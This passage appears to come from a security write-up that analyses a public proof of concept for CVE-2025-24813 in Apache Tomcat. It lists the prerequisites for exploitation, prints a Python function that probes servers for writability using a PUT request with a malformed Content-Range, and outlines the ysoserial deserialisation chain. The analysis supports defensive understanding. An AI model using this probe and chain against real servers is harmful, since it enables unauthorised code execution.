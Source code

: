 ### PoC

Rather than re-creating the wheel, let's review the [PoC](https://github.com/absholi7ly/POC-CVE-2025-24813) referenced in the NVD advisory; the author already outlined the requirements for exploitation:

#### Prerequisites for Successful Exploitation

1. **Apache Tomcat Version**: The target must be running a vulnerable version of Apache Tomcat.
2. **Writable Directory**: The server must allow PUT requests
3. **Deserialization Trigger**: The server must process the uploaded session file (e.g., via a GET request to `/index.jsp`) and trigger deserialization of the payload.
4. **Java Environment**: The attacker's machine must have Java installed to generate payloads using `ysoserial` or compile Java-based payloads.
5. **ysoserial (Optional)**: If using the `ysoserial` payload type, the `ysoserial.jar` file must be available locally.

#### Analysis

The `check_writable_servlet` makes an initial PUT request to write "test data" to a file called `check.txt`, with the server responding 200 OK if it's writable. Note that it specifies a `Content-Length` of "10000" and `Content-Range` of "bytes 0-1000/1200", which exceeds the provided data. Other PoCs do not follow the same approach - perhaps the intention is to force partial-behaviour in some instances.

```python
def check_writable_servlet(target_url, host, port, verify_ssl=True):
    # Quick check whether the target accepts PUT + content-range (writability test)
    check_file = f"{target_url}/check.txt"
    try:
        response = requests.put(
            check_file,
            headers={
                "Host": f"{host}:{port}",
                "Content-Length": "10000",
                "Content-Range": "bytes 0-1000/1200"
            },
            data="testdata",
            timeout=10,
            verify=verify_ssl
        )
        if response.status_code in [200, 201]:
            print(f"[+] Server is writable via PUT: {check_file}")
            return True
        else:
            print(f"[-] Server is not writable (HTTP {response.status_code})")
            return False
    except requests.RequestException as e:
        print(f"[-] Error during check: {str(e)}")
        return False
```

If the server is writable a serialised payload will be generated with [ysoserial](https://github.com/frohoff/ysoserial) and uploaded using the same technique (paired with the path equivalence - not required according to other PoCs). Following the successful upload, a GET request is made using the \[attacker-controlled\] session ID which triggers the deserialisation.
